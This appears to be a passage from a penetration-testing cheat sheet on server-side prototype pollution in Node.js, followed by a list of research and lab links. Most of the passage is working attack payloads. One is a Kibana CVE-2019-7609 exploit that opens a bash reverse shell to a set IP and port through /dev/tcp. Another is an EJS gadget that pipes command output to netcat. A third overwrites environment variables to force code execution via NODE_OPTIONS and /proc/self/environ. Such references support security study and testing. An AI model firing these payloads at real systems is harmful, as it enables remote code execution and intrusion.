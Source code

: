 ### Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

### Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

```
{    "__proto__": {        "client": 1,        "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"    }}
```

### Overwrite Environment Variable

```json
"constructor":{
	"prototype":{
		"env":{
			"xyz":"require('child_process').execSync('whoami').toString()"
		},
		"NODE_OPTIONS":"--require /proc/self/environ"
	}
}
```

* **`env`**\
  Set the value of the `xyz` to environment variables.
* **`--require /proc/self/environ`**\
  Inject environment variables from the current process as a module.

## Resources

1. [Server-side Prototype Pollution - PortSwigger Research](https://portswigger.net/research/server-side-prototype-pollution)
2. [Server-side Prototype Pollution Paper - ArXiv](https://arxiv.org/pdf/2207.11171)
3. [Server-side Prototype Pollution - PortSwigger Web Security](https://portswigger.net/web-security/prototype-pollution/server-side)
4. [Prototype Pollution to RCE - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce)
5. [Detecting Server-side Prototype Pollution without Polluted Property Reflection - PortSwigger Labs](https://portswigger.net/web-security/prototype-pollution/server-side/lab-detecting-server-side-prototype-pollution-without-polluted-property-reflection)
6. [Privilege Escalation via Server-side Prototype Pollution - PortSwigger Labs](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)
7. [Prototype Pollution in Server-side Applications - Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/prototype-pollution-in-server-side/)
8. [JavaScript Prototype Pollution Attack - Medium Guide](https://medium.com/@dodir.sec/javascript-prototype-pollution-attack-a-simplified-guide-c3b4ba8a6441)
9. [Payloads All The Things - Prototype Pollution Exploitation](https://swisskyrepo.github.io/PayloadsAllTheThings/Prototype%20Pollution/#prototype-pollution-exploitation)
10. [Server-side Prototype Pollution Video - YouTube](https://www.youtube.com/watch?v=c3oBNbrSYGA) \[Arabic]
11. [JavaScript Prototype Pollution Attack Video - YouTube](https://www.youtube.com/watch?v=LD-KcuKM_0M) \[Arabic]
